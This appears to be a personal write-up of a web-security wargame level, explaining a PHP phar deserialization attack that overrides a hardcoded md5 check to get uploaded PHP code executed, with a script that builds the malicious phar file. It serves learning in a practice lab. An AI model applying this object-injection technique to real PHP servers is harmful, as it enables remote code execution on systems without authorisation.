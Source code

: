 This level wasn't easy at all and it required some deep research to solve.  The logic behind the web is uploading a file and storing it somewhere in the server, then it does a check for the **md5** hash of the uploaded file and if it passes the check, its content gets executed with php compiler. So if we pass that hash check, we can literally execute any php code we want. The hash is being compared to string that is hardcoded from the beginning in the class **Executer**. Obviously, we need to override it. And this reminded me of how we changed a variable in a class in **level 26** using **PHP Object Injection** attack. But There is no desirialization call in the flow of the code. But let's keep that in mind. 

In an attempt to bypass the **md5_file()** function, I search for known vulnerabilities and I found out that applying that function on a **phar** file, the objects saved in its metadata get **unserilized**. I was like : Repeate that again ?

So I went looking for this **phar** thing. It seems like its an archive file similar to JAR in java and its has specific structure. Among this structure, this file holds reference to some other files and also something called metadata that can store objects and these objects get unserialized whenever this phar file gets passed in a file managment function like opening or something similar. I'm not so sure if I got the way it works right but I understood what I need to solve this level. We need a file that contains the php payload to be executed eventually, and a phar file that points to that payload file and that holds in its metadata an object from tha class **Executor** but with values we desire.


First, let's craft this **phar** file. Ir is done by creating a php file that creates the phar file. Let's name this file **"phar_creation.php"**

```php
<?php
    
    // modified Executor Class
    class Executor{
        private $filename="attack.php"; 
        private $signature=True;
        private $init=False;
    }

    // Object instantiaition
    $executor = new Executor();

    // phar file name declararion
    $pharFile = 'phar_file.phar';

    // clean up for existing phar file
    if (file_exists($pharFile)) 
    {
        unlink($pharFile);
    }

    // create phar
    $phar = new Phar($pharFile);

    // start buffering. Mandatory to modify stub which is something required
    $phar->startBuffering();

    // Add the stub; teh way found online without changing it
    $phar->setStub('<?php __HALT_COMPILER(); ?>');

    //empty text file just to fill the content of the archive 
    $phar->addFromString('empty.txt', 'text');

    // save the executor object to the metadata
    $phar->setMetadata($executor);

    // stop writing on the phar
    $phar->stopBuffering();
```
